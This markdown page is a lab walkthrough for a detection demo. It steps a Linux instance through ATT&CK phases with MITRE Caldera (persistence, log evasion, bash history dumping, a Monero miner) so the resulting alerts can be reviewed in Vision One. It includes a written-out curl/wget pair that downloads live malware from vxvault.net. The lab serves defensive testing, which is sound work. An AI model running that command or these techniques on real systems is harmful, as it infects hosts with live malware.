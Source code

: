 ```yaml
---
title: "Linux"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```

## Linux - Detection Mode
---

<b>Before you start this lab, make sure the C1WS Policy attached to the Linux Instance is the "demo > visionone > detection mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="926KXvQiQ-0" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "Weak executable files (T1574.010) - Locate and infect files with weak but executable perms". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="NOQU4tKmqiQ" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Avoid logs (T1070.003) - Stop terminal from logging history". In this way, the instructions you are executing will not be logged by the OS, making hard to the SOC Team to investigate and track the malicious instructions executed on this attack.

{{< youtube id="pFkTQmuWyGw" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Dump history (T1552.003) - Get contents of bash history". You may find sensitive information with this technique.

{{< youtube id="2KH_YkmH_6A" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="CbS21y0QvD4" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="AREqI9QRxsQ" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="zfGupkq1HVw" >}}

#### Impact 2
Using Mitre Caldera, you can deploy the following manual instruction. It will make the affected computer to download 0-day malwares from live repositories in the internet.

        curl http://vxvault.net/URL_List.php > urls.txt
        wget -i urls.txt --tries=1

{{< youtube id="ldIEFNi7EiE" >}}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.